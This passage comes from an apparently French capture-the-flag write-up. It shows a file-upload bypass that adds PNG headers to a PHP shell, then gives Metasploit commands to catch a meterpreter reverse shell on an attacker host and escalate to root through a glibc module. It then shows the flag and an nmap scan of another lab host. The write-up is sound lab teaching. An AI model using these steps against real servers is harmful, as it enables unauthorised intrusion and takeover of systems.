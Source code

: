 Puis à l'aide d'un script python, on a ajouté les entêtes png au fichier `shell.php` afin que celui-ci puisse être téléchargé sur le serveur.

La prochaine étape consiste à configurer `metasploit` pour pouvoir accéder au `shell` sur le serveur. 

```shell
#configuration pour accéder au shell
use exploit/multi/handler 
set LHOST 10.10.42.12
set LPORT 5555
set PAYLOAD php/meterpreter/reverse_tcp 
exploit
```

Pour finaliser la connexion, il faut accéder à l'adresse du fichier php ajouté précédemment : 

http://10.10.40.128/uploads/4ff435f8ff59b14231f54cbe12bde851475b5bb4b156877e95ac4fb154849fb1_shell_modify.php

```shell
#mise en arrière-plan de la session + regarder son ID
background
sessions 

#augmenter les privilèges
use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
set payload linux/x86/meterpreter_reverse_tcp
set LHOST 10.10.42.12
set LPORT 4500
set SESSION 3
exploit

#vérifier qu'on est root
getuid
#Server username: uid=0, gid=0, euid=0, egid=0

#obtenir le flag
find / -name '*flag*'
```

Dans le dossier `/root`, on peut trouver le fichier `flag.txt`. Avec la commande `cat flag.txt`, on trouve le flag suivant : `AST16{up104d_w17h_57y13_15_n07_3n0u6h}`.

> Source : https://www.youtube.com/watch?v=by-Z1EKwgTs



#### Host 10.10.40.138

````shell
#Scan des ports avec
nmap -sV -p0-65535 10.10.40.138 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 14:50 BST
Nmap scan report for 10.10.40.138
Host is up (0.013s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````
